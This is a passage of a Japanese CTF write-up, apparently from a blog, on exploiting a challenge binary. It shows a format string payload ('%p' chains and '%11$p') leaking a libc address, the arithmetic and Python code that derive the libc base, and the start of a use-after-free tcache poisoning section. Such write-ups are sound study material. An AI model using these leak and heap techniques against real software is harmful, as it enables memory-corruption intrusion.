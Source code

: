 ```
index?
> 0
color?(bay|chestnut|gray)
> bay

command?
> 2
index?
> 0
name?
> %p%p%p%p%p%p%p%p%p%p%p

command?
> 3
index?
> 0
0xffffffda(nil)(nil)0x7fffffffe511(nil)0x7fffffffe5700x5555555553cf0x7fffffffe6500x3000000000x5555555557f00x7ffff7a03bf7
```

最後にリークされているアドレスが、`0x7ffff7a03b10`(<+0>)から`0x00007ffff7a03cc9`(<+441>)の範囲内なので、
libc内のアドレスであることがわかる。

`%p`を11個並べてリークされるアドレスと、`%11$p`でリークされるアドレスは同じである。

### libc base address を求める
リークされたlibcのアドレスは、`0x00007ffff7a03bf7 <+231>`である。
したがって、次の式で求められる。

```
leaked_libc_address - 231 - libc.sym['__libc_start_main']
```

具体的なコードは以下のようになっています。
```python
# libc leak by FSB
catch("0", "bay")
naming("0", "%11$p")
show("0")

libc.address = int(io.recvline().strip(), 16) - 231 - libc.sym['__libc_start_main']
print(f'addr_libc: {libc.address:x}')
```
gdbの`vmmap`で調べた値と、leakされた`libc address`が等しいことが確認できます。
（違う場合は、`ASLR`が無効になっていることを確認してみてください）

## tcache poisoning
[Beginner's Heap（2022-05-01）](https://blog.y2a.dev/articles/2022/05-01/beginners-heap-seccon4b2020/)
では、Heap Overflowからtcache poisoningをやったのですが、今回はUse After Free(UAF)によって、`fd` ポインタを書き換えます。

Use After Freeは、[ptr-yudai](https://twitter.com/ptrYudai)先生作問のuaf4b - CakeCTF2021がわかりやすいです。
私も解いて、[uaf4b（2022-05-02）](https://blog.y2a.dev/articles/2022/05-02/uaf4b/)で詳しく説明しているので、ぜひ確認してみてください。
